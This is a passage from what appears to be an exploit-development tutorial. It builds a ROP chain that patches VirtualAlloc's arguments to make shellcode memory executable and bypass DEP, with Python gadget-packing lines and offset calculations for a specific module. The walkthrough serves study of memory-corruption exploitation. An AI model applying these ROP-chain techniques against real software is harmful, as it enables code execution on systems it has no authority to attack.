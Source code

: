 **Note: See how we have reused several gadgets for this section! Not only gadgets, but also the value of the registers that are already stored due to prior gadget chains.**

# Patching arguments to VirtualAlloc
We have successfully created and executed a partial ROP chain that locates the address of VirtualAlloc from the IAT and the shellcode address, and then updates the API call skeleton on the stack.

In this section, we must patch all four arguments required by VirtualAlloc to disable DEP.
Let's recap the function prototype of VirtualAlloc:
```c
LPVOID VirtualAlloc(
[in, optional] LPVOID lpAddress,
[in] SIZE_T dwSize,
[in] DWORD flAllocationType,
[in] DWORD flProtect );
```

Normally, we want the following:
- lpAddress should be the same value as the return address (the value of our shellcode)
- dwSize to be 0x01
- flAllocationType 0x1000
- flProtect 0x40
## Patching lpAddress
Regarding lpAddress, we first need to know where this address is in the stack. If we take a look, we can see that it is 4 bytes lower than the ESI register (which contain the return address) so we can increment ESI by four in order to have control over lpAddress. Let's use the same increment instructions:
 ```c
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret  
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret  
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret  
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
```

Additionally, since lpAddress needs to point to our shellcode, we can reuse the same gadgets as before and only subtract a different negative value from EAX. 
In the previous example, we used the somewhat arbitrary value of -0x210 to align EAX to our shellcode. Since we increased ESI by 4, we need to use -0x20C or 0xfffffdf4 this time, as shown in the updated ROP chain below.
We will reproduce the ROP chain to copy ESI value into EAX and then substract EAX 0x20c:
```c
rop += pack("<L", (0x5050118e)) # mov eax, esi ; pop esi ; ret  
rop += pack("<L", (0x42424242)) # junk  
rop += pack("<L", (0x5052f773)) # push eax ; pop esi ; ret  
rop += pack("<L", (0x505115a3)) # pop ecx ; ret  
rop += pack("<L", (0xfffffdf4)) # -0x20c  
rop += pack("<L", (0x50533bf4)) # sub eax, ecx ; ret  
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret
```
It is getting a lot easier to expand on our technique because we have already located most of the required gadgets and performed similar actions.
